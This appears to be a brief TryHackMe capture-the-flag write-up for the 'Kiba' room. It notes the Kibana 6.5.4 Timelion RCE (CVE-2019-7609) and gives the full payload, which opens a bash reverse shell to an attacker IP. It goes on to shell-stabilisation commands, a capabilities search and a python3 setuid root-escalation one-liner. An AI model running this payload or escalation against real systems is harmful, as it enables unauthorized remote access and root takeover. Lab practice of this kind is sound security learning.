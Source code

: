 # Kiba 🧭
Names | Details
--------|-----
Source |tryhackme
Level     | easy
Os |linux

**Notes :davad**


[


## Gaining Access 😉

- rustscan -a 10.10.100.210  found a open port 5601 
- kibana 6.5.4 is runing on it
- found a rce on that service CVE-2019-7609
- http://10.10.165.134:5601/app/timelion/
-``.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.4.123/1234 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')``

- exec http://10.10.100.210:5601/app/canvas#/
- got a reverse shell 




## Maintaining Access 🥷
 ### maintaining shell 
- ``script /dev/null/ -c bash
- ``python3 -c 'import pty;pty.spawn("/bin/bash")'
- ``stty rows 38 columns 116
- ``stty raw -echo; fg             <      >     reset
- .``/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``



## Important commands 🔥
- ``getcap -r /``

## Post Exploitation ✴️
- User flag : /home/kiba/user.txt
- Root flag : /root/root.txt
## Tips 💡
- rustscan is faster than nmap 
- 


--------------------------------
**By Whois~TCP ** 🤓🖥️






